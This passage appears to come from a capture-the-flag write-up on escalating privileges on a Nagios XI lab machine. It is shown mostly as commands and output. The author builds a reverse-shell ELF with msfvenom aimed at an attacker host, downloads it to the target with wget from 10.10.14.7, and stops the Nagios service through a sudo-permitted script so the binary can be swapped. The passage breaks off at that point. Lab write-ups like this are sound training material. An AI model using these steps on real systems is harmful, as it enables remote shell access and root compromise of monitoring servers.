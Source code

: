 To summarize, you could replace the "/usr/local/nagios/bin/nagios" binary with one that allows you to get a reverse shell and then you restart the Nagios service via the "manage_service.sh" script.

First you generate a reverse shell with msfvenom.

```shell
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
```

The executable file is transferred to the target machine.

```shell
www-data@monitored:/tmp$ wget 10.10.14.7/shell
wget 10.10.14.7/shell
--2024-02-26 04:17:43--  http://10.10.14.7/shell
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: ‘shell’

shell               100%[===================>]     194  --.-KB/s    in 0s      

2024-02-26 04:17:43 (23.8 MB/s) - ‘shell’ saved [194/194]
```

Nagios service is stopped.

```shell
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status nagios
● nagios.service - Nagios Core 4.4.13
     Loaded: loaded (/lib/systemd/system/nagios.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-02-26 03:48:06 EST; 34min ago
       Docs: https://www.nagios.org/documentation
    Process: 26069 ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
    Process: 26071 ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
   Main PID: 26072 (nagios)
      Tasks: 6 (limit: 4661)
     Memory: 27.5M
        CPU: 3.637s
     CGroup: /system.slice/nagios.service
             ├─26072 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagi…
             ├─26073 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             ├─26074 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             ├─26075 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             ├─26076 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             └─26104 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagi…
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop nagios
<cal/nagiosxi/scripts/manage_services.sh stop nagios
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status nagios
● nagios.service - Nagios Core 4.4.13
     Loaded: loaded (/lib/systemd/system/nagios.service; enabled; vendor preset: enabled)
     Active: inactive (dead) since Mon 2024-02-26 04:22:56 EST; 3s ago
       Docs: https://www.nagios.org/documentation
    Process: 26069 ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
    Process: 26071 ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
    Process: 28251 ExecStop=/usr/bin/kill -s TERM ${MAINPID} (code=exited, status=0/SUCCESS)
```